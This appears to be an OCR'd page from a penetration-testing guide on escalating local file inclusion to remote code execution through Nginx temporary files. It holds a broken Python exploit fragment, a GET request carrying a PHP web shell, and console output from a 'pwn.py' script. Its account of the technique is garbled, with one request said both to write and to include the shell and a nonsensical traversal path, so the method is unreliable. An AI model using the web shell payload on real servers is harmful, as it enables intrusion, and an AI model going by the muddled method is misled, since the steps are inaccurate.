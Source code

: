 ```python
done = True
exit()

for pid in nginx_workers:
a = threading.Thread(target=bruter, args=(pid, ))
a.start()
```
# LFI to RCE via Nginx Temp Files

## Introduction

In some cases, a Local File Inclusion (LFI) vulnerability can be escalated to Remote Code Execution (RCE) by exploiting Nginx temporary files. This technique can be used when the target server is running Nginx as its web server and has the appropriate configuration.

## Exploitation

1. Identify the LFI vulnerability on the target website.
2. Determine the location of the Nginx temporary directory. This can usually be found in the Nginx configuration file (`nginx.conf`).
3. Craft a payload that will write a malicious PHP file to the Nginx temporary directory. The payload should include the PHP code you want to execute.
4. Use the LFI vulnerability to include the crafted payload and trigger the creation of the malicious PHP file in the Nginx temporary directory.
5. Access the created PHP file through the web server to execute the desired code.

## Example Payload

Assuming the Nginx temporary directory is located at `/var/tmp/nginx`, the following payload can be used to write a malicious PHP file named `shell.php`:

```
GET /index.php?page=/var/tmp/nginx/../../../../../../../var/tmp/nginx/shell.php&cmd=<?php echo system($_GET['cmd']); ?>
```

This payload exploits the LFI vulnerability by including the `shell.php` file in the Nginx temporary directory and executing the `cmd` parameter as a system command.

## Mitigation

To prevent this type of attack, it is recommended to:

- Regularly update Nginx to the latest version.
- Restrict access to the Nginx temporary directory.
- Implement input validation and sanitization to prevent LFI vulnerabilities.
- Use a Web Application Firewall (WAF) to detect and block malicious requests.

Remember that this technique should only be used for educational purposes and with proper authorization. Unauthorized use is illegal and unethical.
```
$ ./pwn.py 127.0.0.1 1337
[*] cpus: 2; pid_max: 32768
[*] nginx worker found: 33
[*] nginx worker found: 34
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
```